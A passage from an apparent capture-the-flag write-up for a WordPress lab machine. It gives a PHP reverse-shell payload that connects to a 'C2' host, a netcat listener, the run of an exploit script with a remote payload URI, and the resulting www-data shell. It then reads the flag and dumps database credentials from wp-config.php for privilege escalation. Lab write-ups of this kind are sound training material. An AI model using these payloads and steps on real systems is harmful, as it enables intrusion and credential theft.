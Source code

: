 ## exploitation
Create a file `shell.txt` with the following content.

```
<pre>system('php -r \'$sock=fsockopen("C2",1234);exec("/bin/sh -i <&3 >&3 2>&3");\'')</pre>
```

Now we start our `netcat` listener on the attacker machine.

```
$ nc -lvp 1234
```

Execute the exploit script

```bash
$ python2 46794.py -t http://192.168.55.123/wordpress/ --payload-uri http://c2/shell.txt
```

Catching the connect from the target.

```bash
$ nc -lvp 1234                                                                     
listening on [any] 1234 ...
192.168.55.123: inverse host lookup failed: Unknown host
connect to [192.168.55.200] from (UNKNOWN) [192.168.55.123] 35760
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Yay we got a shell!

## first flag
```bash
$ pwd
/var/www
$ cat local.txt
a*****************************d
```

# privilege escalation

Having a closer look at the `wordpress` config file and which users exist on the system gives us an indication how to elevate our privileges.

```bash
$ pwd
/var/www/html/wordpress
$ cat wp-config.php
...
/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
$ ls /home
takis
```
